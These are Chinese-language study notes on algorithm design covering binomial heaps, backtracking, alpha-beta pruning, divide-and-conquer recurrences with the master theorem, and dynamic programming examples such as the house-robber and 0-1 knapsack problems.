假设第 \(i\) 次操作除了新加入一个结点之外（这会导致一个置位），还有 \(k(k \geqslant 0)\) 次复位，那么一共需要改变 \(k+1\) 个 bit 的状态，于是 \(c_i = k + 1\)，则
因此对于每一步操作的摊还复杂度都是 \(O(1)\) 的。
二项堆的代码实现¶
由于二项堆为了满足从空堆开始构造一个含有 \(n\) 个元素的堆的时间复杂度可为 \(O(n)\) 的目标，舍弃了二叉堆这个性质，因此不能使用简单的 LeftChild 和 RightChild，我们使用 LeftChild 和 NextSibling 的组合实现，即每个结点的左指针指向自己最大的子树，右指针指向自己的兄弟。
需要注意的是这里根的子树从左到右高度依次减小，并且为了方便索引每棵二项树，我们用一个数组存储每棵二项树的根，其中数组的索引就对应二项树的高度。

结构定义¶
Combine¶

我们知道 Insert 和 DeleteMin 的关键操作都是 Merge，而在 merge 中我们常常需要合并两颗大小相同的二项树，因此我们首先讨论 combine 的实现。
在 combine 两棵大小相同的两棵二项树时，结合堆的序性质以及 LeftChild 和 NextSibling 的实现，我们发现只需要将根结点更小的二项树 \(T_1\) 的根作为新二项树的根，根结点大的树 \(T_2\) 作为新根的 LeftChild，再将 \(T_2\) 的 NextSibling 指针接上原先 \(T_1\) 除去根结点的剩余部分即可。
这里的时间复杂度显然是常数的。
Merge¶
在下面 Merge 操作的实现中，从小到大依次对二项堆中的树进行合并，Carry表示是否有进位，T1表示来自二项堆H1的树，T2表示来自二项堆H2的树。
4*!!Carry + 2*!!T2 + !!T1中!!的作用是将树转换为二进制表示，即将非空的树转换为1，空树转换为0000：此时什么都不需要做，因为三个位置都是空的001：同样什么都不需要做，此时H1非空，H2是空树，不需要进行合并010：此时需要将H2的树转移到H1上011：此时需要进位，即两棵相同大小的二项树合并为一棵更大的二项树，Carry要变为两数之和，H1与H2要被清空100：类似于010的情况，但此时是把Carry接到H1上101：需要进位，当前位置0，新的Carry等于原先的Carry与H1合并的结果110：遇上一种情况类似，新的Carry等于原先的Carry与H2合并的结果111：此处做法不唯一，我们只需要保留三棵树中的任意一棵，再将另外两棵合并然后进位上去即可
乍一看情况很多很复杂，但只要把它与二进制的竖式加法对应起来，就很容易理解了。
DeleteMin¶
上面这段代码也不难理解
- 首先是一些错误处理和初始化
- 接着找到最小元素以及它所在的树，将最小树存储在
DeletedTree中，然后将其从二项堆中移除 - 保存根节点到
OldRoot，然后将DeletedTree改为指向其左子树，释放 OldRoot 所占的内存 - 接着初始化一个新的二项队列
DeletedQueue，用于存放从最小树中拆分出的二项树 - 最后更新原二项堆
H的大小，再将H与DeletedQueue与原二项堆合并 - 返回刚刚找到的最小元素
回溯法¶
约 2446 个字 95 行代码 4 张图片 预计阅读时间 11 分钟
基本思想¶
对于某些问题，我们需要找到符合条件的所有解，即使所有的可能性是有限的，但我们使用暴力搜索（exhausting search），或称蛮力法（Brute Force）来对所有的可能性进行逐一检查也显然是一种效率低下的方法。但在很多情况下，我们可以通过某些判断将许多可能但是不符合我们要求的结果排除掉，不去搜索这一部分的内容，从而减小搜索的空间。例如从某一步操作开始需要满足的条件就已经不被满足了，那么从这一步开始的后续操作就不需要再进行了。这种排除的过程我们称之为“剪枝”（Pruning）。
回溯法的核心思想就是在尝试解决问题的过程中，在进行了一系列操作 \((a_1, a_2, \cdots, a_n)\) 后，并尝试进行下一步操作 \(a_{n+1}\) 时：
- 假如发现操作序列 \((a_1, a_2, \cdots, a_n, a_{n+1})\) 仍然满足所有的约束条件，那么就继续尝试下一步，挑选一个合适的操作作为 \(a_{n+2}\)
- 否则，如果发现无论 \(a_{n+1}\) 怎么选择，题目的某种约束条件都无法被满足，或是发现之后的操作已经无法再进行下去了，就撤销操作 \(a_n\)，回到 \((a_1, a_2, \cdots, a_{n-1})\) 的状态，尝试其他的操作 \(a_n'\)
这样一来，我们就可以通过不断的尝试和回溯来找到所有的解，同时排除掉了许多不可能的情况（当一种不可能成功的操作序列在进行到一半时，就已经发现后续不可能满足约束条件了，后续的操作就不需要再进行下去了），从而提高了搜索的效率。
更形象地来说，我们进行操作时就像在一个树上搜索，每一步操作都是树上的一个结点，这一步操作之后的所有可能的后续操作就是这个结点的子结点。我们要在这棵树上不断地搜索，假如我们知道采取某个操作后一定无法达到我们的目的，那么我们就不需要去搜索这个子结点和它对应的子树了，就相当于把这个子树剪掉了，这就是所谓的”剪枝“。
Note
简单来说回溯法就是不断地进行尝试，假如发现这一步操作有问题就撤销操作，尝试其他的方法。
回溯法的应用¶
八皇后问题¶
八皇后问题是一个经典的组合优化问题，问题的描述是：在一个 \(8 \times 8\) 的棋盘上放置八个皇后，使得每个皇后都不在同一行、同一列和同一对角线上（皇后之间都无法彼此攻击）。
我们可以通过回溯法来十分便捷地解决这个问题，简单来说就是先尝试着不断放下皇后，假如发现在某个位置放置皇后之后，就已经没有可以放置新皇后的地方了，那么就撤回这个皇后，尝试其他的位置；假如这个皇后不管放在哪里都会导致有一些皇后无法放置下去，那么就递归地回到上一步，撤销上一个皇后的位置，尝试其他的位置。
- \(k\) 皇后问题是八皇后问题的一般化，即在一个 \(k \times k\) 的棋盘上放置 \(k\) 个皇后，使得每个皇后都不在同一行、同一列和同一对角线上。
一个简单的 \(k\) 皇后问题 Python 实现
收费公路问题 (turnpike problem)¶
这个问题的名称得自于对美国西海岸公路上那些收税公路出口的模拟，它在物理学和分子生物学中都有应用，实际上就是给定一条直线上的 \(n\) 个点，以及每两两个点之间的距离，求这些点的集合是否能够唯一地确定这条直线上的所有点。

- 我们的想法非常简单，就是首先确定点的个数以及两个端点的位置，例如在上图的例子中左右两个端点的位置分别是 0 和 10，接下来的每一步都考虑目前剩余的最大的距离，显然这个距离一定是新放置的端点与两个端点其中之一的距离。
- 于是对于每一个新的点我们都有两种放置的方法（最大长度是与左端点的距离或与右端点的距离），我们可以依次尝试这两种放置方法，假如发现放置后接下来的点就无法满足给定的距离，那么就撤销这个点的放置，尝试另一种放置方法（假如两种方法都是不行的，那么就说明需要回溯到上一个点，尝试其他的放置方法）。
- 就这么进行下去，直到所有的点都被放置完毕，或是发现此时这一个问题没有任何解法。
从上图中我们也可以看到，不断进行回溯的过程就是一个建立决策树的过程。另外根据对称性我们知道，当我们找到一种解法之后，我们只需要把这一条直线左右对称一下就可以得到剩余的另一种解法。
PPT 中的伪代码
因此我们也可以得到一个对于一般回溯问题的框架
博弈¶
井字棋博弈（Tic-tac-toe）¶
在上面的问题中我们已经看到了一些决策树建立的例子，如果是双人乃至多人决策，那么我们面对的问题就是一个（扩展式）博弈问题。下面以井字棋（Tic-tac-toe）为例，介绍博弈相关的内容。
无论在何种博弈中，以下条件都是必不可少的
- 参与人：在 Tic-tac-toe 中就是两个玩家，计算机与人类
- 策略：在 Tic-tac-toe 博弈中就是每个玩家在看到当前的棋局情况做出的行动决策
- 效用函数：在一般博弈中，理性人追求的是自己的效用最大化，在PPT中，我们将效用函数用自己与对手的 “number of potential wins at position P” 之差来表达，也就是说在当前的局势下还有多少种可能的赢法。

在 PPT 的例子中，我们为参与者指定的策略是所谓的“最大最小策略”（或“最小最大策略”）。显然，计算机玩家想要让上图中的效用函数最大，而人类玩家想要让效用函数最小。
即人类玩家知道计算机玩家会在自己落子之后选择效用最大的下法，那么人类玩家就要在各种可选的位置中挑选一个合适的位置，使得后续计算机玩家落子能获取的最大效用尽可能小（也就是说想办法削减效益函数的上限）；反之，假如计算机想要最大化效用，并且知道人类玩家会尽可能最小化效用，那么计算机就应当选择使得效用的下限最高的一种落子方法。
\(\alpha-\beta\) 剪枝¶
实际上 \(\alpha-\beta\) 剪枝的主要思想已经在上一段话中介绍了，下面举的例子中的 max 与 min 表示在这一层中，操作者的目标是最大化效用还是最小化效用


-
所谓 \(\alpha\) 剪枝就是我要使得效用函数最大化，那么我就要从可选的操作中选择效用的下限最大的一种（因为对手一定会在下一步操作中把效用变得最小，一定会达到可能的效用的下限），那么在寻找效用下限最大的操作的过程中，就会发现有一些操作的下限比已知的其他操作要低，那么这些操作的后续步骤实际上就不需要遍历了，这就是所谓的“剪枝”。
如右图所示，我已经知道如果选左侧路径至少能得到 44 的效用，但如果我选择右侧路径，我们发现有一个叶结点我只能得到 40 的效用，由于对手一定会最小化效用，那么无论右侧路径另一个叶结点是多少，右侧路径的效用下限也一定不会高于 40，这说明我们在右侧路径得到的值不会超过 40，一定低于左侧路径。因此无论右侧路径的右下方叶结点是多少，我都不需要再进行搜索了，因为我一定会选择左侧路径，这个结点就被 \(\alpha\) 剪枝（pruning）剪掉了，在图中用染黑表示。
-
\(\beta\) 剪枝也是类似的情况，只不过我此时的目标是最小化效用函数，因此要寻找效用上限最低的操作。右图中我已知左侧的路径效用至多为 44，右侧路径的左下角叶结点效用为 68，那么右侧路径的效用上限不会低于 68，那么我们走右侧路径得到的值一定不会少于 68，这是高于 44 的。因此就不需要搜索右侧路径其他的叶结点了，我一定会选择左侧路径，未探索的结点直接 \(\beta\) 剪枝剪掉即可。
分治法¶
约 1957 个字 5 张图片 预计阅读时间 8 分钟
分治的思想不再赘述，简单来说就是将一个大问题分解成若干个子问题，然后递归地解决这些子问题，然后将这些子问题的解合并起来得到原问题的解。通常而言，分治法递归的时间复杂度递推公式具有如下形式： $$ T(n) = aT(n/b) + f(n) $$ 其中 \(a\) 为子问题的个数，\(b\) 与子问题划分方式有关，是子问题长度的收缩因子，\(f(n)\) 则是合并各个子问题的解需要的时间。当然，有时候我们并不能得到这么寻常的结构。
分治法的时间复杂度分析¶
代入法¶
代入法实际上就是先猜测答案，然后通过数学归纳法来证明我们的猜测是正确的。虽然会有些莫名其妙，毕竟如果我能直接猜出来答案，还证明什么呢。但是在考试和作业中都是选择判断题的情况下，代入法是一个非常便捷有效的方法（做题的时候暴力代入真有用吧😋）。代入法一般分为两步：
- 猜测解的形式；
- 用数学归纳法求出解中的常数，并证明解是正确的。
下面是一个简单的例子


在运用代入法的时候有几点值得注意：
- 对于 \(N\) 足够小的时候，我们几乎可以认为操作的复杂度是一个常数，因此我们无需担心归纳的 base case，直接分析即可；
- 进行归纳时的常数 \(c\) 应当是一个保持不变的定值，也就是说对于不同大小的 \(N\) 我们应当使用相同的 \(c\)。
- 有时会出现猜测的上界偏大的情况，这时候即使我们代入的上界能够通过数学归纳法证明，但也不是一个最紧的上界。这时我们可以利用一些熟悉的结论来推测最紧的上界，例如归并排序等；也可以猜测出一些比较松的上下界，然后不断向中间逼近一个最紧的上下界。
代入法
求解递归式 \(T(n) = 2T(\lfloor \sqrt{n} \rfloor) + \log n\) 的时间复杂度。
为了方便起见，我们不考虑值的舍入误差问题，只考虑 \(\sqrt{n}\) 是整数的情况。令 $ m = \log n $，得到 $$ T(2^m) = 2T(2^{m/2}) + m $$
接着，我们令 \(S(m) = T(2^m)\)，则有 \(S(m) = 2S(m/2) + m\)，这就得到了我们熟悉的归并排序的结果：因为 \(S(m) = O(m \log m)\)，因此 \(T(n) = O(\log n \log \log n)\)。
递归树法¶

从图中就可以简单直接地看出来递归树的画法，并且注意到树每一层右侧的时间复杂度就代表下一层合并到这一层所需的总时间复杂度，而每一个叶结点的复杂度就是 base case 的复杂度，这显然是常数的。
我们注意到时间复杂度主要分为两个部分，第一部分是各层合并时所需的时间，第二部分就是处理 base case 的总时间，这两个部分谁更大，谁就决定（master）了整体的时间复杂度，这也是后面的主定理（master theorem）的思想。

当画出来的递归树不是一棵完全树的时候，对其进行复杂度分析是相当困难的，这时候我们可以观察之后使用代入法猜测并验证。
Example
给定一个整数 \(M\) $$ T(n) = \begin{cases} 8T(n/2) + 1 & n^2 > M \\ M & otherwise \end{cases} $$
我们可以画出递归树，发现有 $ \log_2 (n/\sqrt{M}) $ 层，每层合并需要 1 个单位时间，并且有 $ 8^{\log_2 (n/\sqrt{M})}$ 个叶结点，每个叶结点需要 \(M\) 的时间，因此总时间复杂度为 $$ O(M \cdot 8^{\log_2 (n/\sqrt{M}) } + \log_2 (n/\sqrt{M})) = O(n^3/\sqrt{M}) $$
主定理¶
主定理的证明什么的就不写了，具体详见《算法导论》，这里直接给出结论和一些例题
主定理
考虑如下形式： $$ T(n) = aT(n/b) + f(n) $$ 其中 \(a \geqslant 1, b \geqslant 1\)
- 若对于某个常数 \(\varepsilon > 0\)，有 \(f(n) = O(n^{\log_b a - \varepsilon})\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(f(n) = \Theta(n^{\log_b a})\)，则 \(T(n) = \Theta(n^{\log_b a} \log n)\)
- 若对于某个常数 \(\varepsilon > 0\)，有 \(f(n) = \Omega(n^{\log_b a + \varepsilon})\)，且对于某个常数 \(c < 1\) 和充分大的 \(n\)，有 \(a f(n/b) \leqslant c f(n)\)，则 \(T(n) = \Theta(f(n))\)
需要注意，以上这三种情况并未覆盖 \(f(n)\) 的所有可能性，情况 1 和情况 2 之间有一定间隙，情况 2 和情况 3 之间也有一定间隙。如果函数 \(f(n)\) 落在这两个间隙中，或者情况 3 中要求的正则条件不成立，就不能使用主方法来求解递归式。我们来看一个不符合正则条件的例子：
Example
令 $ T(n) = T(n/2) + n(2-\cos n \pi)$，此时 \(a = 1,b = 2\)，且我们知道 \(\cos\) 函数的取值是 -1 到 1，满足第三种情况的第一个条件，但是不满足第三种情况的正则条件。因为如果满足正则条件，我们代入有 $$ \dfrac{n}{2}(2-\cos \dfrac{n\pi}{2}) \leqslant cn(2-\cos n\pi) $$ 对某个常数 \(c<1\) 和充分大的 \(n\) 都成立。然而，当 \(n\) 很大时，我们总可以取 \(n=4k+2\) 这种形式破坏上面这一不等式。
- 若对于某个常数 \(c>1\) 有 \(a f(n/b) = c f(n)\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(a f(n/b) = f(n)\)，则 \(T(n) = \Theta(n^{\log_b a} \log n)\)
- 若对于某个常数 \(c<1\) 有 \(a f(n/b) = c f(n)\)，则 \(T(n) = \Theta(f(n))\)
不难看出这里是上一形式主定理的推论，例如第一种情况 \(a f(n/b) = c f(n)\) 表明 $f(n) = \dfrac{a}{c} f(n/b) $，故可以递推得到 $$ f(n) = \dfrac{a^{\log_b n}}{c^{\log_b n}} = \dfrac{n^{\log_b a}}{n^{\log_b c}} = O(n^{\log_b a - \varepsilon}) $$ 正好对应于原始形式的第一种情况，第二、三种情况也是同样的推导
对于递推式 $ T(n) = aT(n/b) + \Theta(n^k \log^p n) $，其中 $a \geqslant 1, b > 1, k \geqslant 0, p \geqslant 0 $
- 若 \(a > b^k\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(a = b^k\)，则 \(T(n) = \Theta(n^k \log^{p+1} n)\)
- 若 \(a < b^k\)，则 \(T(n) = \Theta(n^k \log^p n)\)
对于递推式 $ T(n) = aT(n/b) + \Theta(n^k \log^p n) $，其中 \(a \geqslant 1, b > 1, k \geqslant 0\)， 而 \(p\) 为任意实数
- 若 \(a > b^k\)，则 \(T(n) = \Theta(n^{\log_b a})\)
-
若 \(a = b^k\)，则
- 若 \(p > -1\)，\(T(n) = \Theta(n^k \log^{p+1} n)\)
- 若 \(p = -1\)，\(T(n) = \Theta(n^k \log \log n)\)
- 若 \(p < -1\)，\(T(n) = \Theta(n^k)\)
-
若 \(a < b^k\)，则
- 若 \(p \geqslant 0\)，\(T(n) = \Theta(n^k \log^p n)\)
- 若 \(p < 0\)，\(T(n) = \Theta(n^k)\)
事实上无论什么形式的主定理，其关键都在于比较 $ n^{\log_b a} $ 和 \(f(n)\) 之间的关联（注意到叶子结点的数量为 $ a^{\log_b n} = n^{\log_b a} $），如果前者大，那么就说明此时 \(a\) 比较大，递归树的分叉多，更大的复杂度会落在叶子上，所以总的时间复杂度就是由 $ T(n) = aT(n/b) $ 对应的复杂度决定的；反之则表示中间每一层的复杂度较大，故整体时间就是 \(f(n)\) 级别的。
这里的思想在递归树已经阐述过了，实际上就是看前后两部分谁 master 了整体时间复杂度，这就是“主定理”名字的由来。
分治法的应用¶
曾学过的问题¶
下面简单回顾一下曾经学过的利用分治思想的问题，并用主定理给出一些基本的分析
最大子序列和问题¶
假定我们要寻找子数组 \(A[low,high]\) 的最大子序列和，我们首先找到数组中央位置 mid，分治法很自然地将这个问题的解 \(A[i,j]\) 变为以下三种情况之一：
- 最大子序列和完全在 \(A[low,mid]\) 中，即 \(low \leqslant i \leqslant j \leqslant mid\)
- 最大子序列和完全在 \(A[mid+1,high]\) 中，即 \(mid+1 \leqslant i \leqslant j \leqslant high\)
- 最大子序列和跨越 \(mid\) 两边，即 \(low \leqslant i \leqslant mid < j \leqslant high\)。
所以我们的想法就是：
- 分治：将原数组平分为两半 \(A[low,mid]\) 和 \(A[mid+1,high]\)，然后分别对这两半求解最大子序列和；一定不能忘记递归有 base case，这里的 base case 就是数组只剩下一个元素，那就什么都不用操作，直接返回进入下一步合并阶段；
- 合并：首先我们要计算跨越 mid 两边的最大子序列和，然后和左右两半的结果比较，选择最大的作为最终结果。关键在于计算跨越 mid 两边的最大子序列和，这其实是线性的，为什么？因为这里的子序列都必须跨越 mid，所以最大子序列和就是最大的 \(A[i,mid]\) 加上最大的 \(A[mid+1,j]\)，这个只需要对 \(i,j\) 做遍历就行，所以是线性的.
那么我们得到的递推公式就是很简单的 \(T(n)=2T(n/2)+O(n)\)，所以就是 \(O(n\log n)\) 的复杂度。
归并排序与快速排序¶
有点懒得说了
归并排序就是将数组分为两部分并排好序，其中 base case 就是数组长度为1的情况，此时直接返回即可；然后将已经排好序的两个数组拼成一个大数组，这显然是线性的复杂度，利用主定理很快就能得到 \(O(n\log n)\) 的复杂度。
至于快速排序，我们先选择一个 pivot，然后首先将小于 pivot 的都放左边，大于的都放右边，这一步只需线性时间，，然后对 pivot 左右的数组递归继续排序。在 FDS 的课程中我们知道快速排序的最差情况可能到 \(O(n^2)\) 的复杂度，但在后续的随机算法一节中我们会引入随机性证明平均时间复杂度为 \(O(n\log n)\)。
最近点对问题¶

这是 PPT 上的例子，也是相当经典的应用。我们取 \(x\) 坐标的中点，将整个图分为左右两半，于是同样分为三个部分，左最近点对、右最近点对和分离最近点对（跨过中轴线的点对），根据递归的思想，我们假设已知左最近点对和右最近点对，那么关键就在于找到分离最近点对。
我们记 \(x\) 坐标的中点为 \(\bar{x}\)，记作左右两半中最近点对距离为 \(\delta\)。因为我们要找分离最近点对，于是只要考虑 \([\bar{x}-\delta, \bar{x}+\delta]\) 之间的所有点 $ q_1, q_2, \cdots, q_n $，它们按 \(y\) 坐标从小到大排序。设 \(q_i\) 的 \(y\) 坐标为 \(y_i\)，那么我们只需要从下往上检查坐标在 \([\bar{x}-\delta, \bar{x}+\delta]\) 和 \([y_i, y_i+\delta]\) 之间的长方形区域中的所有点，考察这些点是否和 \(q_i\) 有更近的点对即可。（因为我们从最下方的点开始逐一向上寻找点对，对于 \(q_i\) 下方的点我们已经在先前考虑过这些点和 \(q_i\) 是否会构成更近的点对了（同样是递归的思想），因此就不需要再向 \(q_i\) 的下方寻找了）
我们可以将这个长方形区域分为平均分割成 8 块，则每块内最多出现一个点（否则每块内两点之间的距离就不超过 \(\dfrac{\sqrt{2}}{2} \delta\) 了，这就与左右两半中最近点对距离为 \(\delta\) 相矛盾），于是对于每个 \(q_i\)，我们至多只需要向上找 7 个点即可。
实际上我们还可以把这 7 个点进一步减少：
- 例如上图中我们正在考虑的 \(q_i\) 处于右半部分，那么右半部分的点就不需要考虑了，因为右半部分的点与这一个 \(q_i\) 的距离也不会小于 \(\delta\)，于是我们只需要考虑左半部分的 4 个点即可。
-
再更进一步，我们还可以将 4 这个数字降为 3。因为我们每在左半部分放一个点(\(q_i\) 在右半部分)，那么在左半部分，以这个点为圆心半径为 \(\delta\) 的圆内不可能再有另一个点，事实上最差的情况就是有四个这样的圆心，此时这四个圆心在左半区域的四个角 \((0,0)\), \((0, \delta)\), \((\delta, 0)\), \((\delta, \delta)\) 上，这时候毫无疑问的就是 \((0, 0)\) 处的点最好。
而其它情况下不可能有四个圆心，只能有三个，那么在最多三个圆心中寻找最近点对，也就只需要遍历 3 个点就足够了
动态规划¶
约 4264 个字 59 行代码 10 张图片 预计阅读时间 18 分钟
动态规划的来由
动态规划（Dynamic Programming，DP）是一种用于解决最优化问题的算法设计方法。它通过将复杂问题分解为更简单的子问题，并存储这些子问题的结果，以避免重复计算，并利用这些子问题的结果来快速求解原问题。
动态规划的基本思想是利用子问题的最优解构造出原问题的最优解。它的由来可以追溯到以下几个关键点：
-
重叠子问题：许多最优化问题可以分解成重叠的子问题，动态规划通过记录子问题的解来避免重复计算。
-
最优子结构：如果一个问题的最优解包含其子问题的最优解，则可以通过解决子问题来构造原问题的解。
-
贝尔曼方程：贝尔曼提出了一个递归关系（即贝尔曼方程），描述了如何通过子问题的解来得到原问题的解。
动态规划的引入——爬楼梯问题¶
爬楼梯问题
假设你正在爬楼梯。需要爬 \(n\) 阶你才能到达楼顶。每次你可以爬 1 或 2 级台阶，求有多少种不同的方法爬到楼顶？我们要求算法在线性时间内解决这一问题。
我们可以利用中学的排列组合知识来求出这个问题，例如我们可以假设爬 2 级台阶的次数为 0，1，2 \(\cdots\)，然后计算出每种情况下的爬楼梯方法的排列数，最后再求和。但是这种方法的时间复杂度显然不是线性的，不能满足我们的要求。
我们也可以用回溯的方法来解决这个问题，但是回溯实际上就是枚举每一种可能的方法，但我们实际上并不关心具体要怎么爬，而是关心爬楼梯的方法数，同时回溯的时间复杂度显然也时远大于线性的。
这时候我们可以转换思路，假设我们已经解决了这个问题的所有子问题，即对于任意的 \(i < n\)，我们都知道爬到第 \(i\) 级台阶的方法数，我们就只需要考虑最后一步怎么爬就可以了。最后一步有爬 1 级台阶或 2 级台阶两种选择，显然，最后一步爬 1 级对应的方法数就是爬 \(n-1\) 级台阶对应的方法数，最后一步爬 2 级对应的方法数就是爬 \(n-2\) 级台阶对应的方法数，两者之和就是我们爬到 \(n\) 级台阶的方法数，于是我们可以得到一个递推关系： $$ f(n) = f(n-1) + f(n-2) $$ 这就是我们常见到的斐波那契数列的递推公式，我们只需要带入初始条件 \(f(0) = f(1) = 1\) 就可以很轻松地得到爬楼梯的方法数。
但是我们知道假如直接用上面这段递归代码来解决这个问题，会出现极大量的冗余计算，同一个斐波那契数列的值会被计算多次，冗余计算次数的增长是爆炸性的，这显然是不合理的。
一个很自然的想法就是我们可以用一个数组来存储已经计算过的每一步的值，这样我们就可以避免重复计算，这是一种很常见的”空间换时间“的算法，我们称其为“记忆化”，实际上这就是动态规划的基本思想。
换句话说，原先递归的方法实际上是一种“自顶向下” 的方法，它符合我们的直接思路：最后长度为 n 的问题需要长度为 n−1 和 n−2 的求和，所以我们的代码直接利用递归计算递归式显得非常自然。但是重复的计算迫使我们放弃这种自然的想法，转而采用自底向上从小问题逐步迭代，最终构建原问题的解法。
动态规划的基本思想
在爬楼梯这一简单而经典的问题中，我们通过对最后一步两种情况的分类，将整个问题的解转化为了两个子问题解的求和，即有一个从子问题的解到原问题的解的递推公式，然后我们通过记忆化的方式求解递推式。
我们将上述特点抽象出来：一个问题，它的最优解可以表达为一些合适的子问题的最优解的递推关系，则我们称这一问题具有最优子结构性质（因为大问题的最优解可以直接依赖于小问题的最优解）。然后我们求解这一递推式，通过设置好 base case（这里我们也用 base case 指代最简单的情况，但注意此时讨论的不是递归情况），然后通过记忆化的方法，使用迭代算法而非费时的递归算法避免冗余计算，得到一个时间复杂度令人满意的算法，这就是动态规划的基本想法。
动态规划
动态规划方法通常用来求解最优化问题（optimization problem）。这类问题可以有很多可行解，每个解都有一个值，我们希望寻找具有最优值（最小值或最大值）的解。我们称这样的解为问题的一个最优解（an optimal solution），而不是最优解（the optimal solution），因为可能有多个解都可以达到最优值。
我们通常按如下4个步骤来设计一个动态规划算法：
- 刻画一个最优解的结构特征；
- 递归地定义最优解的值；
- 计算最优解的值，通常采用自底向上的方法；
- 利用计算出的信息构造一个最优解。
步骤 1-3 是动态规划算法求解问题的基础。如果我们仅仅需要一个最优解的值，而非解本身，可以忽略步骤 4。
更精炼地来说，事实上动态规划就是为一个具有最优子结构性质（即原问题最优解可以由子问题最优解递推得到）的最优化问题寻找一个由子问题到原问题的递推式，然后用记忆化的方法来求解。有时在最后我们需要构造出这一最优解，即执行步骤 4，这就需要我们在执行步骤 3 的过程中维护一些额外信息，以便用来构造一个最优解。
加权独立集合问题¶
问题描述¶
打家劫舍
你是一个专业的小偷，计划偷窃沿街的房屋。每间房内都藏有一定的现金，影响你偷窃的唯一制约因素就是相邻的房屋装有相互连通的防盗系统，如果两间相邻的房屋在同一晚上被小偷闯入，系统会自动报警（也就是说，不能连续偷两个相邻的房屋）。
给定一个非负整数数组，代表每个房屋存放金额的数量，计算你在不触动警报装置的情况下，一夜之内能够偷窃到的最高金额数。
我们可以将这个问题抽象出来：
考虑一个无向图 G，其上所有点都在一条线上（这种图我们称其为路径图），每个点都有一个非负权重。我们称 G 的独立集合是指顶点互不相邻的子集（换句话说独立集合中不会同时包含同一条边上的两个点），然后要求解一个具有最大顶点权重和的独立集合。
Example

- 空集
- 四个单点集
- 第 1 和第 3 个点
- 第 1 和第 4 个点
- 第 2 和第 4 个点
其中最大的独立集合显然是第 2 和第 4 个点构成的集合，其权重和为 8，即小偷的最优选择是偷 2 和 4 两家，最大收益是 8。需要注意的是，题目的假设中每个顶点都有非负权重，所以最优解的顶点应当是越多越好。
最优子结构¶
为了构建出这一问题的最优子结构，我们可以参考爬楼梯问题的思路，先考虑由 \(n\) 个点，\(n-1\) 条边构成的图 \(G(V,E)\) 的最后一个顶点 \(v_n\)，考虑这个问题的最优解，那么
-
假如 \(v_n\) 不在最优解 \(S\) 中，那么 \(G_n\) 的最优解就是子问题 \(G_{n-1}\) 的最优解。
- 因为如果 \(S\) 不是 \(G_{n-1}\) 的最优解，那么对于 \(G_{n-1}\) 就一定会存在一个比 \(S\) 更好的解 \(S^*\)。而 \(S^*\) 显然一定是 \(G_n\) 的一个可行解，那么把这个解直接应用到 \(G_n\) 中就会得到一个比 \(S\) 更好的结果，这和 \(S\) 是最优解是矛盾的。因此 \(S\) 就是 \(G_{n-1}\) 的最优解。
-
假如 \(v_n\) 在最优解 \(S\) 中，那么 \(G_n\) 的最优解就是子问题 \(G_{n-2}\) 的最优解。
- 因为 \(v_n\) 在最优解中，那么 \(v_{n-1}\) 就一定不在最优解中了，具体的分析与第一种情况类似，
通过上面的分析，我们就可以知道得到一个递推关系，假设前 \(i\) 个顶点的最优加权独立 集合的权重之和为 \(W_i\)，那么 $$ W_i = \max \{ W_{i−1}, W_{i−2} + w_i \} $$ 其中 \(i = 2, 3, \cdots, n, \, W_0 = 0, W_1 = w_1\)
接下来我们可以通过之前介绍的记忆化方法，从 base case 出发，自底向上构建出整个问题的解

很显然，这一算法的时间复杂度是 \(O(n)\)，是一个非常高效的算法
解的重构¶
有时候我们可能不仅需要最优解的值，还需要最优解本身包含了哪些点，这就需要解的重构。
事实上对于这一问题而言想要重构出解非常简单，我们只需要观察上面伪代码的数组 \(A\) 给我们留下的线索，自顶向下一步步推断当前图中的最后一个点是否在最优解中。

- 如果 \(A[i-1] \geqslant A[i-2] + w_i\)，那么说明 \(G_n\) 的最优解不含有第 \(i\) 个点，\(G_n\) 的最优解就是 \(G_{n-1}\) 的最优解
- 如果 \(A[i-1] < A[i-2] + w_i\)，那么说明 \(G_n\) 的最优解含有第 \(i\) 个点，\(G_n\) 的最优解就是 \(G_{n-2}\) 的最优解加上第 \(i\) 个点的价值
背包问题¶
背包问题是一个最最经典的动态规划问题，我们这里首先介绍最基础的背包问题，即 0-1 背包问题。
背包问题
我们有 \(n\) 个物品，每个物品的重量为 \(s_i\)，价值为 \(v_i\)，我们有一个容量为 \(C\) 的背包，我们希望找到一个最优的装载方案，使得背包中的物品总价值最大。
这一问题的特点是每个物品要么不放进包里，要么完整的 1 个放进去，因此称为 0-1 背包问题。
最优子结构¶
背包问题的最优子结构与前面两个问题有所不同。首先考虑最后一个物品是否在最优解中，根据这个情况来划分子问题：
- 如果第 \(n\) 个物品不在最优解 \(S\) 中，即最优方案排除了最后一件物品，因此它可以看成仅由前 \(n−1\) 个物品组成的子问题的一种可行解决方案，并且 \(S\) 必定是这个子问题的最优解，具体的分析与加权独立问题类似。
-
如果第 \(n\) 个物品在最优解 \(S\) 中，这种情况只有在 \(s_n \leqslant C\) 时才有意义。类似于加权独立集合问题，我们希望最优解去掉第 \(n\) 个物品构成的集合 \(S−\{n\}\) 是前 \(n−1\) 个物品组成的子问题的最优解，但这显然是错误的！因为如果 \(S−\{n\}\) 就已经把容量 \(C\) 几乎占满，那最后 \(n\) 根本就放不进来了。
因此我们需要对子问题的设置略做调整：\(S−\{n\}\) 应当是前 \(n\) 个物品在背包容量为 \(C−s_n\) 的情况下的最优解。因为我们知道 \(n\) 在解中，那么除去 \(n\) 之外的其它物品的重量之和最多就是 \(C−s_n\) ，因此 \(S−\{n\}\) 应当是前 \(n\) 个物品在背包容量为 \(C−s_n\) 的情况下的可行解，并且应当是最优解，
此时的子问题不再仅仅是只由单个参数（即是第几个输入）控制，还由背包容量控制，因此我们需要一个二维的数组来存储子问题的解。我们设 \(V_{i,c}\) 表示总重量不超过 \(c\) 的前 \(i\) 件物品组成的子集的最大总价值，那么我们可以得到如下递推关系：
根据递推式，只要 \(i−1\) 的所有情况都确定了，递推就可以往 \(i\) 推进，所以 base case 需要对 \(i\) 的最小情况（即 \(i = 0\)）设置好就可以了，而 \(i=0\) 时 \(V_{i,c}\) 显然是 0，因为根本没有物品可以放。伪代码如下所示。
一个显然的事情是，这一算法的时间复杂度是 \(O(nC)\)。

解的重构¶

从最后一个物体开始判断：
